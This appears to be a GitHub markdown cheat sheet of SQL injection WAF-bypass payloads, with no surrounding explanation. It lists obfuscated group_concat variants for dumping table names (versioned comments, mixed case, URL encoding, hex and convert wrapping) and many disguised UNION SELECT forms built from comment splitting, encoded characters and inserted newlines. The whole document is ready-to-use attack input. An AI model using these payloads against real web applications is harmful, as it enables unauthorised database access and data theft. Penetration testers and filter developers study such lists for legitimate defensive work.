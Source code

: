 ### group_concat

```
/*!group_concat*/()
gRoUp_cOnCAt()
group_concat(/*!*/)
group_concat(/*!12345table_name*/)
group_concat(/*!50000table_name*/)
/*!group_concat*/(/*!12345table_name*/)
/*!group_concat*/(/*!50000table_name*/)
/*!12345group_concat*/(/*!12345table_name*/)
/*!50000group_concat*/(/*!50000table_name*/)
/*!GrOuP_ConCaT*/()
/*!12345GroUP_ConCat*/()
/*!50000gRouP_cOnCaT*/()
/*!50000Gr%6fuP_c%6fnCAT*/()
unhex(hex(group_concat(table_name)))
unhex(hex(/*!group_concat*/(/*!table_name*/)))
unhex(hex(/*!12345group_concat*/(table_name)))
unhex(hex(/*!12345group_concat*/(/*!table_name*/)))
unhex(hex(/*!12345group_concat*/(/*!12345table_name*/)))
unhex(hex(/*!50000group_concat*/(table_name)))
unhex(hex(/*!50000group_concat*/(/*!table_name*/)))
unhex(hex(/*!50000group_concat*/(/*!50000table_name*/)))
convert(group_concat(table_name)+using+ascii)
convert(group_concat(/*!table_name*/)+using+ascii)
convert(group_concat(/*!12345table_name*/)+using+ascii)
convert(group_concat(/*!50000table_name*/)+using+ascii)
CONVERT(group_concat(table_name)+USING+latin1)

```


### Union Select

```
/*!50000%55nIoN*/ /*!50000%53eLeCt*/
%55nion(%53elect 1,2,3)-- -
+union+distinct+select+
+union+distinctROW+select+
/**//*!12345UNION SELECT*//**/
/**//*!50000UNION SELECT*//**/
/**/UNION/**//*!50000SELECT*//**/
/*!50000UniON SeLeCt*/
union /*!50000%53elect*/
+ #?uNiOn + #?sEleCt
+ #?1q %0AuNiOn all#qa%0A#%0AsEleCt
/*!%55NiOn*/ /*!%53eLEct*/
/*!u%6eion*/ /*!se%6cect*/
+un/**/ion+se/**/lect
uni%0bon+se%0blect
%2f**%2funion%2f**%2fselect
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
REVERSE(noinu)+REVERSE(tceles)
/*--*/union/*--*/select/*--*/
union (/*!/**/ SeleCT */ 1,2,3)
/*!union*/+/*!select*/
union+/*!select*/
/**/union/**/select/**/
/**/uNIon/**/sEleCt/**/
+%2F**/+Union/*!select*/
/**//*!union*//**//*!select*//**/
/*!uNIOn*/ /*!SelECt*/
+union+distinct+select+
+union+distinctROW+select+
```